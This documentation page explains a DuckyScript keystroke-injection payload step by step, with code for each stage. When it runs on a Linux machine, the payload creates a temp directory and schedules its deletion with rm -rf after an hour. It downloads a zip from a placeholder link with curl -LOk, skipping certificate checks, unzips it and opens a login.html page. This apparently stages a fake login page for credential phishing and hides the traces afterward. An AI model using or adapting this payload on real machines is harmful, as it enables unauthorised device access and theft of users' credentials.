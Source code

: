 # DuckyScript Documentation

This DuckyScript code performs several actions related to downloading and unzipping a file from a specified link. The script creates a new random directory, downloads a zip file from the specified URL, and unzips it. It also opens a login page.

- First, the script creates a new random directory using the mktemp command and assigns its path to the dir_name variable. The DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Create a random directory
    STRINGLN dir_name=$(mktemp -d)
    DELAY 500
```

- Next, the script sets a timer using the sleep command to delete the directory after 60 minutes (3600 seconds). The rm -rf command is used to remove the directory and its contents. The & character is used to run this command in the background, allowing the script to continue running. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Delete the directory after 60 minutes (3600 seconds)
    STRINGLN (sleep 3600 && rm -rf $dir_name) &
    DELAY 500
```

- The script then moves into the directory using the cd command and the dir_name variable. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Move into the directory
    STRINGLN cd $dir_name
    DELAY 500
```

- Next, the script downloads the zip file from the specified URL using the curl command. The LOk option is used to download the file and give it the same name as the original file. The #ZIP_LINK placeholder should be replaced with the actual URL of the zip file. Another DELAY command is used to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Download the zip from your own link
    STRINGLN curl -LOk "#ZIP_LINK"
    DELAY 500
```

- The script then unzips the downloaded file using the unzip command. The DELAY command is used again to pause the script execution for 500 milliseconds.
```DuckyScript
    REM Unzip it
    STRINGLN unzip file.zip
    DELAY 500
```

- Finally, the script opens the login page using the xdg-open command and the login.html file. The exit command is used to terminate the script.
```DuckyScript
    REM Open the login page
    STRINGLN xdg-open login.html; exit;
```